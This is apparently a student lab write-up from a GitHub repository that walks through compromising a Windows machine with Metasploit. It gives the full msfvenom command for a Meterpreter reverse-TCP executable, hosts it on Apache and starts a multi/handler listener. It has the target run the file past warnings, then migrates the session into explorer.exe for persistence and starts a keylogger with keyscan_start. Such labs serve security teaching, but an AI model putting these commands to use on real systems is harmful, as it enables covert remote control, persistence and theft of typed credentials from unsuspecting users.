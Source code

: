# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## OUTPUT:
![image](https://github.com/NARESHVB/Compromising-windows-using-Metasploit/assets/119393642/789e08b1-dbe9-41fa-a46c-69d84051f331)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![image](https://github.com/NARESHVB/Compromising-windows-using-Metasploit/assets/119393642/128d3dd1-5be3-4e6b-a694-b6832397db74)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/NARESHVB/Compromising-windows-using-Metasploit/assets/119393642/37b34a1a-247a-494e-916e-ec0ee36f5763)

Start apache server sudo systemctl apache2 start

![image](https://github.com/NARESHVB/Compromising-windows-using-Metasploit/assets/119393642/85225dea-3c20-443f-be6d-552d201c205c)


Check the status of apache2

![image](https://github.com/NARESHVB/Compromising-windows-using-Metasploit/assets/119393642/a7fa668e-edb7-476f-8916-c7d8b69591fd)

Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/NARESHVB/Compromising-windows-using-Metasploit/assets/119393642/095ba4f0-5586-47eb-8583-5f69bce2f303)


![image](https://github.com/NARESHVB/Compromising-windows-using-Metasploit/assets/119393642/2f506bf1-ab43-4412-97a2-b8b072f450aa)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/NARESHVB/Compromising-windows-using-Metasploit/assets/119393642/7c98c574-ce15-4696-983c-f04f30f850e7)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/NARESHVB/Compromising-windows-using-Metasploit/assets/119393642/4f51fba0-82fb-4906-8589-6e7048e86e01)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/NARESHVB/Compromising-windows-using-Metasploit/assets/119393642/4363560a-2a2d-4e56-b9cd-2ec85222274a)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted


![image](https://github.com/NARESHVB/Compromising-windows-using-Metasploit/assets/119393642/ae8ce960-73e7-4853-abbc-d8045b99d4cc)



Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.



![image](https://github.com/NARESHVB/Compromising-windows-using-Metasploit/assets/119393642/44530c81-9b21-468a-8437-f46495636096)


































## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
